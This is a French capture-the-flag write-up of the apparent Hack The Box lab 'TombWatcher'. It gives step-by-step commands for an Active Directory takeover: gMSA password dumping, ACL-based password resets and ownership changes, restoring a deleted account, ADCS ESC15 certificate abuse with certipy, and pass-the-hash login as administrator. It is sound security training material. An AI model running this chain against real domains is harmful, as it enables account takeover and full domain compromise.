


## GMSAReadPassword

Maintenant que je suis Alfred, j'ai décidé de jeter un œil à `Bloodhound`. À partir de là, qu'ai-je ?
- Les membres du groupe infrastructure dispose des privilèges `ReadGMSAPassword` sur le compte `ansible_dev$`, ce qui signifie qu'il peut lire le mot de passe GMSA de ce compte.
- `Ansible_dev$` dispose des privilèges `ForceChangePassword` sur l'utilisateur `Sam`, ce qui lui permet de modifier le mot de passe de ce dernier.
- `Sam` dispose des privilèges `WriteOwner` sur `John`, ce qui lui permet de modifier la propriété de l'utilisateur `John`.`
- Enfin, `John` dispose des privilèges `GenericAll` sur l'unité d'organisation `ADCS`.


J'utilise `gMSADumper` pour lire et décoder le mot de passe GMSA. J'obtiens alors le hash du compte `ansible_dev$`.
```shell
gMSADumper.py -d 'tombwatcher.htb' -u 'alfred' -p 'basketball'
```


Les identifiants sont valides.
```shell
nxc smb tombwatcher.htb -u 'ansible_dev$' -H '1c37d00093dc2a5f25176bf2d474afdc'
```



## ForceChangePassword

Maintenant que j'ai les identifiants du compte `ansible_dev$`, je peux changer le mot de passe de l'utilisateur `sam` avec `bloodyAD`.
```shell
bloodyAD --host '10.129.25.88' -u 'ansible_dev$' -p ':1c37d00093dc2a5f25176bf2d474afdc' set password 'sam' 'Password@2025'
```

Avec la commande suivante, je vérifie que la modification est effective.
```shell
nxc smb tombwatcher.htb -u 'sam' -p 'Password@2025'
```



## WriteOwner

Les étapes sont les suivantes :
1. Changer le propriétaire de John en Sam.
2. Accorder à Sam le contrôle total de John.
3. Modifier le mot de passe de John.
Avec Sam, j'ai changé la propriété de l'utilisateur John. Sam est désormais propriétaire de John.
```shell
owneredit.py -action write -new-owner "sam" -target "john" "tombwatcher.htb"/"sam":'Password@2025'
```


Ensuite, j'attribue le contrôle total de John à Sam.
```shell
bloodyAD --host "10.129.25.88" -d "tombwatcher.htb" -u 'sam' -p 'Password@2025' add genericAll "john" "sam"
```


Maintenant que Sam a le contrôle total sur John, il peut changer son mot de passe.
```shell
bloodyAD --host '10.129.25.88' -u 'sam' -p 'Password@2025' set password 'john' 'Password@2025'
```


Le changement de mot de passe est effectif. Nous pouvons désormais obtenir un shell en tant que John.



## Evil-WinRM

J'obtiens un shell en tant que John et j'obtiens le flag user.
```shell
evil-winrm -i 10.129.25.88 -u 'john' -p 'Password@2025'
```



# Shell as administrator
## cert_admin recover

Je ne connais pas le raisonnement des autres, mais pour moi, et d'après mon expérience, si je vois un utilisateur disposant de droits sur une Unité d'Organisation, que ce soit directement ou implicitement via des groupes avec autorisations déléguées (ACL), je vérifie systématiquement les objets supprimés. On ne sait jamais de quoi il s'agit ni ce qu'ils autorisent, et dans ce cas précis, il existe une chaîne de transmission potentiellement abusive pouvant mener à une compromission. C'est un constat que j'ai tiré de mes expériences.
Je liste alors tous les objets supprimés. Il existe trois comptes `cert_admin`. L'un d'eux devrait être utile pour les étapes suivantes.
```shell
Get-ADObject -Filter 'Isdeleted -eq $true' -IncludeDeletedObjects
```


J'utilise `certipy` pour obtenir les templates et le certificat sous le nom de **John**. Cela m'a fourni le **SID** du compte que je dois utiliser pour demander des certificats.
```shell
certipy find -u 'john@tombwatcher.htb' -p 'Password@2025' -dc-ip '10.129.242.219' -stdout -debug
```


Maintenant que j'ai le **SID**, je peux le comparer à ceux des comptes `cert_admin`.
```shell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects -Properties *
```


Je restaure le compte à l'aide du **GUID (Identifiant de Groupe)**.
```shell
Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf"
```


J'active ensuite le compte.
```powershell
Enable-ADAccount -Identity cert_admin
```


Avec la commande suivante, je vérifie que l'activation est effective.
```shell
Get-ADUser -Identity cert_admin -Properties Enabled
```


Je change ensuite le mot de passe de `cert_admin`.
```shell
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password@2025" -Force)

```


Les identifiants sont valides.
```shell
nxc smb tombwatcher.htb -u 'cert_admin' -p 'Password@2025'
```



## ESC15 - Plan B

Avec `certipy`, j’énumère les templates vulnérables. Afin de pouvoir détecter l'`ESC15`, il faut une une version de `certipy` supérieure ou égale à la **5.0.0**.
```shell
[root@exegol-htb] /workspace
❯ certipy find -u 'cert_admin@tombwatcher.htb' -p 'Password@2025' -dc-ip '10.10.11.72' -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

L'`ESC15` décrit une vulnérabilité affectant les autorités de certification (CA) non corrigées. Elle permet à un attaquant d’injecter des **Application Policies arbitraires** dans un certificat émis à partir d’un modèle de certificat **Version 1 (Schema V1)**. J'utilise alors [Certipy Wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu) afin de pouvoir l'exploiter du **scénario B** de l'`ESC15`. Ce scénario consiste d’abord à obtenir un certificat d’agent en injectant la politique **Certificate Request Agent*, puis à s’en servir pour demander un certificat au nom d’un utilisateur privilégié.

Premièrement, je fais une demande de certificat en injectant la stratégie d'application « **Certificate Request Agent** ». Ce certificat permet à `cert_admin` de devenir agent d'inscription.
```shell
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'Password@2025' \
    -dc-ip '10.10.11.72' -target 'dc01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'
```


Je fais une demande de certificat au nom de l'administrateur à l'aide du certificat de `cert_admin`.
```shell
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'Password@2025' \
    -dc-ip '10.10.11.72' -target 'dc01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
```


Je m'authentifie avec le certificat de l'administrateur. J'obtiens alors sont hash NT.
```shell
certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
```



## Evil-WinRM

Je me connecte enfin à la machine en que l'utilisateur `administrator`.
```shell
evil-winrm -i 10.10.11.72 -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc'
```



Merci d'avoir lu ce writeup 😉.
